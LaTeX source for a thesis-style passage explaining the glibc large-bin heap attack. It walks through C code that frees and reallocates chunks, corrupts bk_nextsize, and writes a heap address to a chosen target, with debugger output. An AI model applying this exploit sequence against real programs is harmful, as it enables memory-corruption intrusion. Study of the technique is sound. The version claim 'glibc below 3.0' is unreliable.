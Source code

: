 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\begin{document}
\section{\lb{} Attack}
As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.
\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}
The first step is to define the target, also, we need to define two chunks in the range size of \lb{}, moreover, we need to define two chunks between them to prevent them from merging or the top chunk.
\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}
In the second step, we free the most significant chunk; however, the freed chunk is not in the \lb{} yet. As we discussed, a free chunk adds to \ub{} at first, so, The best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (Like other attacks).
\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}
In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.
\begin{lstlisting}[language=c,frame=tlrb]
[+] unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
 Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

[+] large_bins[63]: fw=0x555555559290, bk=0x555555559290
 Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
\end{lstlisting}

The next step is to put the target address - 0x20 in the \lstinline{p1->bk_nextsize} . As we mentioned before, Just \lb{} chunks use this pointer, they point to the next biggest chunk in the link list.
\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}
The last step is to allocate a bigger chunk , so , \lstinline{p2} move to a larger chunk . When \lstinline{p2} move to large chunk , the heap manager write the address of \lstinline{p2} inside \lstinline{p1->bk_nextsize->fd_nextsize} as the code of \libc{} show:
\begin{lstlisting}[language=c,frame=tlrb]
fwd = bck;
bck = bck->bk;
victim->fd_nextsize = fwd->fd;
victim->bk_nextsize = fwd->fd->bk_nextsize;
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
\end{lstlisting}
This attack works on \libc{} below 3.0 .
\chapter{Conclusion}

% 
% 
\end{document}
